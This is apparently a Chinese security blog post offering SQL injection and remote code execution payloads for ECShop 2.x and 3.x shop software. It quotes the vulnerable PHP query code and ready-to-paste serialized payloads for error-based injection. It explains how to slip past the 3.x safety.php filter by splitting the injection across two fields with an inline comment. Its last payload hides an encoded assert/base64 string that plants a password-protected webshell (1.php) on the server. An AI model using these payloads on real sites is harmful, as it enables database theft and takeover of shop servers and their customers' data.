 ```yaml
---
id: 5000
title: ecshop 2.x 3.x SQL injection/RCE payload
date: 2018-09-07T11:32:57+00:00
author: admin
layout: post
guid: http://www.ikow.cn/?p=5000
permalink: /ecshop-payload/
categories:
  - web
tags:
  - ecshop
  - sql injection
  - rce
  - payload
---
```

首先，感谢ringk3y的分析：http://ringk3y.com/2018/08/31/ecshop2-x%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/ 大家跟一遍代码基本上都能弄明白漏洞的原理，整个漏洞的构造还是很有意思的

然后网上公开的基本上都是2.x版本的payload，对于sql injection，除了文中提到的insert_ads，insert_bought_notes函数同样存在漏洞：
```
    $sql = 'SELECT u.user_name, og.goods_number, oi.add_time, IF(oi.order_status IN (2, 3, 4), 0, 1) AS order_status ' .
           'FROM ' . $GLOBALS['ecs']->table('order_info') . ' AS oi LEFT JOIN ' . $GLOBALS['ecs']->table('users') . ' AS u ON oi.user_id = u.user_id, ' . $GLOBALS['ecs']->table('order_goods') . ' AS og ' .
           'WHERE oi.order_id = og.order_id AND ' . time() . ' - oi.add_time < 2592000 AND og.goods_id = ' . $arr['id'] . ' ORDER BY oi.add_time DESC LIMIT 5';
```
注入点为id，这样我们构造payload可以为
```
554fcae493e564ee0dc75bdf2ebf94cabought_notes|a:2:{s:3:"num";i:1;s:2:"id";s:70:"1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";}
```

对于3.x版本的注入，唯一和2.x的区别在于$_echash的值变成了45ea207d7a2b68c49582d2d22adf953a，我们直接替换原来payload中的值即可：
```
45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
```
或者
```
bought_notes|a:2:{s:3:"num";i:1;s:2:"id";s:70:"1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";}
```

对于3.x版本的rce或者是你想要读取数据库里面的信息，我们需要绕过3.x中的过滤（代码在safety.php中)，
先看下3.x中的过滤：
```
'sql'=>"[^\\{\\s]{1}(\\s|\\b)+(?:select\\b|update\\b|insert(?:(\\/\\*.*?\\*\\/)|(\\s)|(\\+))+into\\b).+?(?:from\\b|set\\b)|[^\\{\\s]{1}(\\s|\\b)+(?:create|delete|drop|truncate|rename|desc)(?:(\\/\\*.*?\\*\\/)|(\\s)|(\\+))+(?:table\\b|from\\b|database\\b)|into(?:(\\/\\*.*?\\*\\/)|\\s|\\+)+(?:dump|out)file\\b|\\bsleep\\([\\s]*[\\d]+[\\s]*\\)|benchmark\\(([^\\,]*)\\,([^\\,]*)\\)|(?:declare|set|select)\\b.*@|union\\b.*(?:select|all)\\b|(?:select|update|insert|create|delete|drop|grant|truncate|rename|exec|desc|from|table|database|set|where)\\b.*(charset|ascii|bin|char|uncompress|concat|concat_ws|conv|export_set|hex|instr|left|load_file|locate|mid|sub|substring|oct|reverse|right|unhex)\\(|(?:master\\.\\.sysdatabases|msysaccessobjects|msysqueries|sysmodules|mysql\\.db|sys\\.database_name|information_schema\\.|sysobjects|sp_makewebtask|xp_cmdshell|sp_oamethod|sp_addextendedproc|sp_oacreate|xp_regread|sys\\.dbms_export_extension)"
```
基本上想从数据库中通过select查询获取数据是不可能的（欢迎大家提供绕过的思路）
但是insert_ads的sql语句给我们绕过全局过滤带来了方便：
```
$sql  = 'SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, ' .
                    'p.ad_height, p.position_style, RAND() AS rnd ' .
                'FROM ' . $GLOBALS['ecs']->table('ad') . ' AS a '.
                'LEFT JOIN ' . $GLOBALS['ecs']->table('ad_position') . ' AS p ON a.position_id = p.position_id ' .
                "WHERE enabled = 1 AND start_time <= '" . $time . "' AND end_time >= '" . $time . "' ".
                    "AND a.position_id = '" . $arr['id'] . "' " .
                'ORDER BY rnd LIMIT ' . $arr['num'];
```
因为可以注入的地方有两处，分别是id和num，这时我们利用inline comment来同时构造payload，id的地方注入'union/*，num的地方注入*/select+....
关于如何使用comment来帮助我们的注入语句，可以参考：http://www.sqlinjection.net/comments/
然后拦截的正则规则中并没有单独拦截union，select，这样我们2.x的payload稍微改造下就又能使用了：
```
45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:273:"*/select 1,0x27756e696f6e2f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152626132393358536b2f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:8:"'union/*";}[/code]
```
执行完之后会在user.php同目录下生成1.php的菜刀马，密码是kow

